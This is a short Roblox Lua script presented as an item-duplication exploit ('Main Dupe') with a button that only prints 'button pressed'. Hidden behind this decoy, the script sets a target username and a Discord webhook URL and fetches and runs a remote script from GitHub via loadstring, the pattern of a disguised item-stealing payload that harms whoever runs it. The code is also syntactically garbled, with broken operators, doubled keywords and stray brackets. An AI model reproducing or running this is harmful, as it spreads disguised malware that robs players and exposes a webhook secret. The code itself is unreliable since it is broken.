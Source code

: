 if game.PlaceId -- 4483381587 then

then local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()

local Window = OrionLib:MakeWindow({Name = "Main Dupe", HidePremium = false, SaveConfig = true, ConfigFolder = "Main Config"}

-- Values

)UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1001399314385469441/3NfHfAJgt5PsLP0e0BT3_7CnRYQFinKNtogHTqYYox8uvGpOa2B6CO4fbWd_CAarkc89"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

-- Functions

-- Tabs

local Tab = Window:MakeTab({

	Name = "Main",

	Icon = "rbxassetid://4483345998",

	PremiumOnly = false

})

-- Buttons

Tab:AddButton({

	Name = "CLICK ME TO DUPE",

	Callback = function()

      		print("button pressed")

  	end    

})

)end

OrionLib:Init()
